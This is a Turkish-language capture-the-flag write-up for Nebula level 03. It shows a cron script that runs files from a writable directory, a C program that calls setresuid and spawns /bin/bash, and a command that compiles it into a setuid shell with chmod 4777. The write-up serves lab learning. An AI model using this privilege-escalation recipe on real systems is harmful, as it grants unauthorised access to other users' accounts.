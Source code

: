```bash
ssh level03@192.168.154.137 # [nebulaIP]
```
Bu seviyede bir crontab bulunduğunu ve bir kaç dakikada bir çalıştığını söylüyor. Dizinde `writable.sh` ve `writable.d` bulunuyor.

```bash
# writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```
Betiktende anlaşıldığı üzere writable.d/ nin altında bash te dosyayı çalıştırıyor ardından dosyayı siliyor.  Bu durumdan faydalanarak aşağıdaki kodu bu işlemde derletip flag03 yetkileriyle bir bash process i çağırabiliriz. 

```c
#include <stdlib.h>
#include <unistd.h>

void main() {
  setresuid(996, 996, 996); //996 flag03 un userid si
  system("/bin/bash");
}
```

![alt text](nebulaPNG/nebula03.png "nebula03")

```bash
# derleme işlemi
gcc /tmp/shell.c -o /home/flag03/shell;chmod 4777 /home/flag03/shell;chmod +x /home/flag03/writable.d/shell
```
